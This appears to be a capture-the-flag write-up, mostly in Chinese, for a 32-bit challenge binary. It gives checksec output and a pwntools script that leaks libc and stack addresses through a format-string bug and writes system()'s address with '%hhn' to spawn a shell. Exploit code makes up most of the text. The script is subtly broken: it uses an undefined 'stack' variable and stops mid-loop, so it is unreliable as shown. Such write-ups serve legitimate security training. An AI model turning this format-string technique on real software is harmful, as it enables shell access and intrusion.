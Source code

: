 ```python
```

## Introduction

```
// file
introduction:   ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b1f22387262614a5200653de20653fabd037978, not stripped

// checksec
[*] '/tmp/tmp/challenges/introduction/build/introduction/introduction'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

fmt 打法，不過 Full RELRO，所以必須要 ret2lib，並且自己產生 `sh` 餵給 `system()` 執行 `system("sh")`。

```python
#!/usr/bin/python3
from pwn import *
     
context.arch = 'i386'
     
r = process('./introduction')
     
written = 0
def next_bytes(n, bits):
    global written
    written_mask = written & ((1 << bits) - 1)
     
    if written_mask < n:
        written += n - written_mask
        return n - written_mask
    else:
        written += ((1 << bits) - written_mask) + n
        return ((1 << bits) - written_mask) + n
     
## leak
r.sendlineafter("First Name: ", "%p-"*10)
leak = r.recvline()[:-1].split(b'-')
libc = int(leak[3], 16) - 0x23e000
info(f"libc: {hex(libc)}")
info(f"stack: {hex(stack)}")
     
_system = libc + 0x45830
sh_hex = u32(b"sh\x00\x00")
target = stack + 0x90
sh_target = stack + 0x128
     
info(f"target: {hex(target)}")
     
payload = b""
padding = 72
base_offset = 7
idx = 7 + (padding // 4)
     
for i in range(3):
    val = (_system >> i*8) & 0xff
    payload += f"%{next_bytes(val, 8)}c%{idx}$hhn".encode()
    idx += 1
```